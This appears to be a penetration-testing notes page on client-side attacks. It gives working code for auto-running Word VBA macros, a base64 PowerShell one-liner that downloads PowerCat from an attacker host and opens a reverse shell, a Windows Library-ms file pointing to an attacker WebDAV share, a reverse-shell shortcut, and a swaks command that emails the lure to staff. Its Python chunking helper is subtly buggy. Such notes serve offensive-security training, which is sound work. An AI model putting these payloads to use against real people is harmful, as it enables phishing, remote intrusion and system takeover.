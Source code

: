 # Client Side Attacks


## Reconnaissance

### Downloadables Analysis

If we are able to download files from the website, we can use `exiftool` to discover its metadata and gather info.

```
exiftool -a -u <DOWNLOADED_FILE>

# -a display duplicated tags
# -u display unknown tags
```

### Client Fingerprinting

Can use "Canarytokens" to generate a URL for the target to click on which will then allow us to analyse their client information used to connect to the URL.

https://canarytokens.org/generate


## Exploitation

### Embedded Malicious Microsoft Office Macros

`.docx` files require wrapper template file so macros cannot be stored in these formats - can only run, not persistent.

`.doc` is able to store macros and easier to exploit.

1. Create `.doc` file
2. \[In Microsoft Word\] View > Macros
3. Enter name, choose current document to embed into. Click create.
4. Create malicious macro in VBA. Need to use ActiveX objects to gain access to Windows platform.

Example malicious macro template:

```
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  CreateObject("Wscript.Shell").Run Str
End Sub
```

*where `Str` = the command to be executed*

**Note:** string literals can only be up to 50 chars long in VBA, so need to concatenate iteratively until full string / command payload is built

Quick python script to achieve this:

```
command = "<CMD>"

n = 50

for i in range(0, len(command), n):
	print("Str = Str + " + '"' + command[i:n] + '"')
```

Can copy paste the output to build the command payload in the VBA `Str` variable.

The command payload can be, for example, base 64-ing a PowerShell two-liner to download PowerCat and reverse shell back to our machine.

```
# Let file `payload.txt` contain PowerCat download and reverse shell payload below:
# IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER-IP>:<ATTACKER-WEBSERVER-PORT>/powercat.ps1');powercat -c <ATTACKER-IP> -p <ATTACKER-REVSHELL-PORT> -e powershell

link@kali:~ cat payload.txt | iconv -t UTF-16LE | base64
link@kali:~ python script.py	# script.py is python code above, with `command = "powershell.exe -nop -w hidden -e <BASE64-ENCODED-OUTPUT-FROM-PREVIOUS-COMMAND>"
```


### RCE via Windows Library Files

We can create library files that connects back to a WebDAV share on our attacking machine.

We can place a malicious executable on this share.

We can deliver the library file to a target user via social engineering, convince them to download and open it and then click on the malicious executable to e.g. gain a reverse shell.

First, need to set up WebDAV share on Kali:
```
link@kali:~$ pip3 install wsgidav
link@kali:~$ mkdir /home/link/webdav
link@kali:~$ touch /home/link/webdav/test.txt	# Optional test file for testing
link@kali:~$ /home/link/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/link/webdav
```

Can verify if WebDAV share created by navigating to http://127.0.0.1 on attacker Kali machine

Example Library File `legit.Library-ms` (delete the comments and spacing)

```
<?xml version="1.0" encoding="UTF-8"?>

// Use Windows library namespace
<libraryDescription xmlns="https://schemas.microsoft.com/windows/2009/library">

	// Specifies DLL library name and index
	<name>@windows.storage.dll,-34582</name>
	
	// Can be arbitrary version
	<version>5</version>

	// Pin to Windows navigation pane? Set to true to make file look more legit
	<isLibraryPinned>true</isLibraryPinned>

	// Icon to use, must be correctly reference, e.g. use default windows folder icon:
	<iconReference>imageres.dll,-1003</iconReference>
	
	<templateInfo>
		// Columns to display in folder, below GUID is default set of columns for folders; looks more believable
		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>

	// Search connectors used to connect to remote location
	<searchConnectorDescriptionList>
		<searchConnectorDescription>
			<isDefaultSaveLocation>true</isDefaultSaveLocation>
			<isSupported>false</isSupported>
			<simpleLocation>
				// *****[IMPORTANT] Point to attacker's WebDAV share, must have http:// before IP*****
				<url><ATTACKER_IP></url>
			</simpleLocation>
		</searchConnectorDescription>
	</searchConnectorDescriptionList>

</libraryDescription>
```

**Note:** When you open the above library file, Windows annoyingly overwrites the `<simpleLocation>` data to 'optimise' it for the client, so may not work after opened for first time. Very annoying.

Next, need to make reverse shell shortcut. On Windows machine, create a shortcut with "Location" being the reverse shell payload, such as 

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP>:<ATTACKER_WERBSERVER_PORT>/powercat.ps1'); powercat -c <ATTACKER_IP> -p <ATTACKER_REVSHELL_PORT> -e powershell"
```

Put the shortcut file on the WebDAV share and convince the user to click it.



## Delivery

### swaks for SMTP

```
link@kali:~$ sudo swaks -t USER1@company.com -t USER2@company.com --from SENDERUSER@company.com --attach @config.Library-ms --server <SMTP_SERVER_IP> --body @body.txt --header "Subject: <SUBJECT_HERE>" --suppress-data -ap
```